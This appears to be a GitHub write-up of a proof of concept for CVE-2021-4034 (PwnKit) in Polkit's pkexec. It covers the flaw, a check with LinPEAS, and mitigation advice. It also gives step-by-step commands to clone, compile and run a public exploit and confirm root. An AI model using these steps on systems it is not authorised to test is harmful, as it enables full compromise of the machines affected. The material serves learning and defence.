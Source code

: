 # Proof of Concept: CVE-2021-4034 - Pkexec Local Privilege Escalation

## Overview

This Proof of Concept (PoC) demonstrates the exploitation of **CVE-2021-4034**, a local privilege escalation vulnerability in the **Polkit** `pkexec` utility, which is part of the default installation on many Linux distributions. The vulnerability allows an unprivileged user to execute arbitrary commands as root, leading to a full system compromise.

- **CVE**: [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034)
- **Severity**: Critical
- **Platform**: Linux/Unix
- **Vulnerability Type**: Local Privilege Escalation
- **Affected Software**: Polkit `pkexec` utility
- **Impact**: Allows an unprivileged user to gain root privileges.

## Vulnerability Details

The vulnerability lies in the `pkexec` utility of **Polkit**, a component responsible for controlling system-wide privileges in Unix-like operating systems. **CVE-2021-4034**, also known as **PwnKit**, can be exploited to escalate privileges from a local, unprivileged user to root. The flaw allows arbitrary command execution due to a failure to validate the arguments passed to `pkexec`.

## How to Check if Your System is Vulnerable

To determine whether your Linux system is vulnerable to **CVE-2021-4034 (Pkexec Local Privilege Escalation)**, you can use the privilege escalation detection tool **LinPEAS**. LinPEAS helps identify common privilege escalation vectors, including known vulnerabilities like **CVE-2021-4034**.

#### Steps to Check with LinPEAS:

1. **Download LinPEAS**:
   First, download LinPEAS onto your system by running the following command:

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh  
```

2. **Run LinPEAS**:
   Once downloaded, give LinPEAS execution permissions and run it to scan the system for privilege escalation vulnerabilities:

``` 
   chmod +x linpeas.sh
   ./linpeas.sh
```


3. **Check for Vulnerabilities**:
   After LinPEAS completes its scan, it will provide a detailed report. Look for any references to **CVE-2021-4034** or **Polkit** within the results to determine if your system is vulnerable to this specific issue.

LinPEAS provides a comprehensive security check for privilege escalation risks and can help identify vulnerabilities that need immediate attention.

## Exploitation

### Tools Required:
- A vulnerable system with `pkexec` installed (default on most Linux distributions).
- Exploit script for **CVE-2021-4034** (available on GitHub).

### Steps to Exploit:

1. **Initial Access**: 
   The attack begins by obtaining initial low-privileged user access to the target machine, such as through a reverse shell. In this case, I had a low-privileged shell from an earlier SQL injection attack.

2. **Download the Exploit**: 
   The public exploit for **CVE-2021-4034** is available on GitHub. Clone the repository containing the exploit:

```
   git clone https://github.com/ly4k/PwnKit.git
```   

3. **Compile the Exploit**: 
   Navigate to the `PwnKit` directory and compile the exploit code using GCC:

```   
   gcc pwnkit.c -o pwnkit
```   

4. **Execute the Exploit**: 
   Once the exploit is compiled, run it on the target machine. The exploit will use the vulnerability in `pkexec` to escalate privileges to root:

```   
   ./pwnkit
```   

5. **Gain Root Access**: 
   Upon successful execution, the exploit grants root-level access to the system. 

   **Proof of Exploit Example:**

   ![Proof of Exploit](https://github.com/AhsanA3/Cybersecurity-Technical-Writing/blob/main/Proof%20of%20Concept%20(PoC)/CVE-2021-4034%20-%20Pkexec%20Local%20Privilege%20Escalation/Successful%20Privesc.jpg)

## Proof of Exploit

After executing the exploit, you can verify that root access has been obtained by running the following command:

```
id
```

Expected output:

```
uid=0(root) gid=0(root) groups=0(root)
```

This output confirms that root privileges have been successfully gained on the target machine.

## Mitigation

To mitigate this vulnerability, affected users should update to a patched version of **Polkit**. System administrators should ensure that their systems are up to date with the latest security patches to prevent local privilege escalation attacks. The specific patch for **CVE-2021-4034** should be applied as soon as possible to secure the system.

Additionally:
- Enforce the principle of least privilege (POLP) by minimizing user privileges on critical systems.
- Implement a robust patch management process to keep all software up to date.

## Technical Details

- [Qualys Research](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)

## References

- [CVE-2021-4034 on Mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034)
- [Polkit GitHub Repository](https://github.com/ly4k/PwnKit)

---

**Disclaimer**: This PoC is intended for educational and research purposes only.
